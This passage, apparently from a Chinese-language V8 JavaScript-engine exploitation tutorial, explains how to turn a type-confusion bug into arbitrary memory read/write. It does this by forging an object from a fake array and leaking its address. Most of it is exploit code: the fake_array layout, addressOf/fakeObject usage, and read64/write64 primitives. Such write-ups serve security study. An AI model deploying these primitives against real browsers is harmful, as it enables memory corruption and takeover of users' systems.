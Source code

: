 （2）将类型混淆漏洞转化成任意读写漏洞：

通过addressOf 泄漏fake_array 对象的地址，并且通过计算偏移，获取fake_array[0]的地址，之后fake_array[0]地址解析成object指针，这样fake_array[0]...[5]就会被认为是一个object对象。

通过改写fake_array[2]就可以操作伪造对象fake_object的elements内容，进行任意读写。

```javascript
var fake_array = [
	float_array_map,
	i2f(0n),
	i2f(0x41414141n),
	i2f(0x1000000000n),
	1.1,
	2.2
];

%DebugPrint(fake_array); // fake array map address
var fake_array_addr = addressOf(fake_array);
var fake_object_addr = fake_array_addr - 0x40n + 0x10n;
var fake_object = fakeObject(fake_object_addr);


function read64(addr)
{
	fake_array[2] = i2f(addr + 0x1n - 0x10n);// 传入地址+1变成指针，因为elements属性前面还有map和length占0x10个字节，所以要先扣除
	var leak_info = f2i(fake_object[0]);
	//console.log("[*] leak addr: 0x" + hex(addr) + " data: 0x" + hex(leak_info));
	return leak_info;
}

function write64(addr, data)
{
	fake_array[2] = i2f(addr + 0x1n - 0x10n);
	fake_object[0] = i2f(data);
	//console.log("[*] write data to addr: 0x" + hex(addr) + " data: 0x" + hex(data));
}

```

示意图如下：
